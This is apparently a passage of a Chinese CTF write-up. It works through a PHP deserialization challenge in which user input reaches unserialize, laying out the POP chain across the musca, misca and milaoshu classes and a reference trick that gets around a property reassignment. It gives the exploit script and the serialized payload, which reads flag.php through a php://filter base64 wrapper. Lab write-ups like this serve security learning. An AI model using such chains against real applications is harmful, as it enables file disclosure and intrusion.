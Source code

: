```
    public $v;
    public function __tostring(){
        echo"misca~musca~milaoshu~~~";
        include($this->v);
    }
}
function check($data){
    if(preg_match('/^O:\d+/',$data)){
        die("you should think harder!");
    }
    else return $data;
}
unserialize(check($_GET["wanna_fl.ag"])); 
```

先不管这个check函数，理清一下pop链

我们能够利用的是milaoshu里的include函数，他是被tostring触发的，而全看下来，能够触发tostring方法的也只有misca类里的die方法，该方法把参数以字符串输出，想要执行的话就要执行get魔术方法，这里要从musca类里的wakeup函数里调过来

所以总的pop链条就是

```
musca->__wakeup()  #1
misca->__get()     #2
milaoshu->include() #3
```

不过要注意的是在misca的get方法里，die能够输出的a参数是被miaomiao()函数重新赋值了

这里直接赋值a是不管用的，就只有使用取地址的方式，把gao的值取为a的地址，这样当赋值给gao的时候也就是赋值给了a，绕过了miaomiao函数

```
<?php
class misca{
    public $gao;
    public $fei;
    public $a;
    public function miaomiao(){
        $this->a='Mikey Mouse~';
    }

}
class musca{
    public $ding;
    public $dong;

}
class milaoshu{
    public $v='php://filter/convert.base64-encode/resource=flag.php';
}
$misca=new misca();
$musca=new musca();
$milaoshu=new milaoshu();
$musca->ding=$misca;
$misca->gao=&$misca->a;
$misca->fei=$milaoshu;
echo serialize($musca);

#O:5:"musca":2:{s:4:"ding";O:5:"misca":3:{s:3:"gao";N;s:3:"fei";O:8:"milaoshu":1:{s:1:"v";s:52:"php://filter/convert.base64-encode/resource=flag.php";}s:1:"a";R:3;}s:4:"dong";N;}
```
